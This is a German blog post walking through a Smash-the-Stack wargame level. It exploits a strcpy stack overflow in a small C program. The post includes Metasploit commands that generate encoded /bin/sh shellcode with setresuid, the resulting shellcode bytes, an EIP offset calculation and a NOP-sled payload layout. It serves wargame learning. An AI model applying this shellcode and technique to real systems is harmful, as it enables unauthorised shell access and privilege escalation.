```yaml
---
layout: post
title:  "Smash the Stack 5"
date:   2014-10-17 13:13:13
categories: IT-Sec
---
```


Herzlich willkommen zurück zu Smash-the-Stack Level5. Dieses mal widmen wir uns folgendem C-Sourcecode (level05.c) :

{% highlight c %}
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

	char buf[128];

	if(argc < 2) return 1;

	strcpy(buf, argv[1]);

	printf("%s\n", buf);	

	return 0;
}
{% endhighlight %}

Wie unschwer zu erkennen ist sieht das wieder verdammt nach einem guten alten Buffer-Overflow aus. Als erstes wird ein Char-Buffer mit 128 bytes als Festgröße intialisiert. Danach wird die Anzahl der Argumente überprüft. Wird kein Argument übergeben wird das Programm mit dem Returnwert 1 beendet. Nun wird mit der Funktion *strcpy* das erste Argument in den Buffer kopiert. Dieser Buffer wird dann ausgegeben und das Programm wird mit Returnwert 0 beendet.

Wie wir beim Sourcecode von level05.c sehen haben wir diesesmal keine extra-Funktion die eine Shell für uns spawnt. Also müssen wir dies diesesmal erledigen. Zum Generieren des nötigen Shellcodes nutze ich einige tolle Funktionen von *Metasploit*. *Metasploit* ist ein Framework zur Entwicklung und Ausführung von stabilen Exploits. Generieren wir uns also erstmal nötigen Shellcode. Dafür nutze ich bei mir lokal auf der Angreifer-Maschinen folgenden Befehl:

*ruby-1.9 msfpayload linux/x86/exec cmd=/bin/sh PrependSetresuid=true R|ruby-1.9 msfencode -e x86/shikata_ga_nai -b '\x04'*

*msfpayload* ist ein in der Programmiersprache *Ruby* geschriebener Payload-Generator. Der Payload ist der Schadcode der bei dem Exploit ausgeführt wird. Als Ziel-Architektur haben wir den Parameter *linux/x86/exec* gesetzt. Das heißt *mfspayload* wird einen Payload für eine 32bit Linux-Maschine generieren. Als Kommando setzen wir */bin/sh*. Der Payload tut also nichts weiteres als */bin/sh* ausführen. Das *PrependSetresuid* setzt die richtige real user id im shellcode. Das "R" steht für "Raw". Wir generieren also rohen Shellcode. Der Strich nach dem R ist eine Pipe. Damit pipen wir den Output von msfpayload nach msfencode und entfernen die Escapesequenz "\x04". "\x04" ist die Escape-Sequenz für EOT ( End of Transmission ) welcher mir im Shellcode einige Probleme bereitete. Andere nicht gewollte Escape-Sequenzen haben wir zum Glück nicht im Shellcode. So könnte zb die Escape-Sequenz: "\x00" dafür sorgen, dass der Payload nicht vollständig in den Buffer kopiert wird da *strcpy* denkt dort wäre der String zu Ende. "\x00" nennt man auch "Null-Terminator" und ist sowas wie das Symbol für "Hier ist der String zu Ende". Außerdem spezifizieren wir mit dem "-e" Parameter den richtigen Encoder. Wenn man diese Option vergisst benutzt msfencode gerne mal Powershell_base64 als default encoder was zu fehlerhaften shellcode auf linux Systemen führt. Der Output von msfpayload bzw msfencode sieht bei mir so aus:

{% highlight text %}
[*] x86/shikata_ga_nai succeeded with size 80 (iteration=1)

buf = 
"\xd9\xce\xd9\x74\x24\xf4\x5e\x2b\xc9\xba\x52\x33\x98\x84" +
"\xb1\x0e\x31\x56\x18\x83\xee\xfc\x03\x56\x46\xd1\x6d\xb5" +
"\xaf\x24\x55\x41\xcc\xf7\xcd\x63\x92\x92\x06\x24\x0b\x30" +
"\x7f\xbc\x06\xd6\xf6\xdb\x30\x37\x7a\x4c\xc0\x2f\x53\xee" +
"\xa9\xc1\x22\x0d\x7b\xf6\x3d\xd2\x7b\x06\x11\xb0\x12\x68" +
"\x42\x47\x8c\x74\xcb\xf4\xc5\x94\x3e\x7a"
{% endhighlight %}

Damit ist der Payload genau 80 Bytes groß. Dies ist wichtig für uns, weil der Buffer nur 128 Bytes Platz bietet. 

Wir haben den Payload. Widmen wir uns also wieder der level05.c Binary. Ähnlich wie in Level03 generieren wir erstmal ein Pattern. Dazu benutzen wir aber diesesmal *pattern_create.rb*. Dieses kleine Ruby-Programm finden wir ebenfalls im *Metasploit*-Framework. Mit dem folgenden Befehl kreieren wir ein einzigartiges pattern:

*ruby-1.9 pattern_create.rb 170*

Wenn wir Level05 nun in gdb starten und das pattern als Argument übergeben und level05 ausführen erhalten wir folgenden Output:

![pattern]({{ sitebase.url }}/img/pattern.png)

Anhand dieses Outputs können wir nun den Offset zum instruction pointer Register (EIP) berechnen den wir brauchen. Dazu nutzen wir *pattern_offset.rb* ebenfalls im *Metasploit*-Framework enthalten:

*ruby-1.9 pattern_offset.rb 37654136*

Der daraus berechnete Offset beträgt genau: 140 Bytes.

Als nächstes können wir nun anfangen den stabilen exploit zu bauen. Dafür benutzen wir eine sogenannte "nop-sled". Das sind ganz einfach mehrere "\x90" ( nop ) Operationen hintereinander als Einstiegspunkt. So brauchen wir nur eine nop-Operation treffen und gleiten praktisch in den Shellcode rein der dann die shell für uns ausführt. Die richtige Adresse, also die Adresse an der sich die nop-sled befindet finden wir durch breakpoints setzen und untersuchen des Stacks heraus. Als Layout habe ich mich für diesen Aufbau hier entschieden:

30 * nop + shellcode + 30 * nop + (return adresse die in den nop-sled zeigt)

Davor hatte ich folgendes Layout ausprobiert:

60 * nop + shellcode + (return adresse die in den nop-sled zeigt)

Dies hatte leider seltsamerweise zu segfaults gefühlt. Wieso sich der Exploit so verhalten hat kann ich mir nicht erklären. Aber anscheinend macht es einen Unterschied wo der Shellcode auf dem Stack liegt. Sehr interessant. Ein Vorfall der weiter untersucht werden möchte.

![creepy]({{ sitebase.url }}/img/creepy.png)

Damit wäre Level05 auch endlich gelöst.
